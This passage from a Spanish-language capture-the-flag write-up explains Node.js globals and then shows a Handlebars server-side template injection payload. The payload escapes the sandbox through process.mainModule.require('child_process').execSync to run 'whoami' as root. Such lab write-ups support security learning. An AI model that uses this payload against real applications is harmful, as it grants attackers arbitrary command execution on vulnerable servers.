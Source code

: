 Esto muestra todas las propiedades y funciones globales disponibles.

Luego probamos:

```bash
console.log(window)
```

![](../img/7e71ea82291ed4d2a2323bc3fcad6d97.png)

📛 Resultado:
```bash
Uncaught ReferenceError: window is not defined
```

Esto demuestra que `window` es exclusivo del navegador, mientras que en Node.js la variable global se llama `global` (también accesible como `globalThis`).

Esta diferencia es importante porque en vulnerabilidades SSTI como la de esta máquina, usamos `global.process` para acceder al sistema —y no `window`—, ya que el entorno es Node.js.


## ✅ Task 10: ¿Como qué usuario se ejecuta el proceso vulnerable?

🌠 **Respuesta**: `root`

### 🌟 Objetivo:

Ejecutar el comando `whoami` desde la vulnerabilidad SSTI para descubrir el usuario del sistema bajo el cual se ejecuta la aplicación.

### 🖇 Por qué se usa `process.mainModule.require`

En Handlebars, el entorno de ejecución está **sandboxed**, lo que significa que funciones como `require()` están **prohibidas directamente**. Para acceder a ellas, debemos escapar el sandbox.

Esto se logra a través de la cadena:

```bash
process.mainModule.require("child_process")
```

- `process` es un objeto global accesible desde el sandbox.
    
- `mainModule` nos permite acceder al módulo principal.
    
- Desde ahí, podemos usar `.require()` para cargar módulos internos.
    

En este caso, cargamos `child_process` para ejecutar comandos con `.execSync()`.

### 🔹 Payload usado:

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
```